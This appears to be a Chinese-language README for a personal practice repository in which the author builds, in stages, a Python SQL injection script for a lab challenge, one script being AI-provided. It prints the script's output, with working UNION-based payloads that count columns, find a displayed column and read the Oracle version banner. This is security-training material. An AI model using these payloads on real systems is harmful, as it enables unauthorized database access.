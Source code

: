 
## lv1
自己練習python
第一階段先能訪問成功

這邊發現Session()的S要大寫
雖然session的方法點進去也是直接呼叫Session()
但AI表示大寫比較常見, 官方好像也都用大寫

## lv2
自己練習python
第2階段可偵測union欄位
主要了解find_columns這個方法的實作

## lv3
研究main.py是如何組出union
主要了解python的join是如何運行的

## lv4
自己手打的code完整版並且破題

## lv5 
研究如何寫出通用的`找version資訊`方法


## main.py
ai給的方法，也可破題

以下為`main.py`的output
```!
[*] 偵測 SQLi
    [Payload] Gifts
    [Payload] ' OR 1=1 -- 
[+] 目標可能存在 SQLi
[*] 偵測欄位數
    [Payload] ' UNION SELECT NULL from dual  --  
    [Payload] ' UNION SELECT NULL,NULL from dual  --  
[+] 欄位數 = 2
[*] 偵測可回顯欄位
    [Payload] ' UNION SELECT 'DISP_COL_TEST',NULL from dual -- 
[+] 可回顯欄位索引 = 1
[*] 偵測 DBMS
    [Payload] ' UNION SELECT banner,NULL FROM v$version -- 
[+] DBMS = Oracle
[*] 取得 DB 版本
    [Payload] ' UNION SELECT banner,NULL FROM v$version -- 
[+] DB Version = Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
```
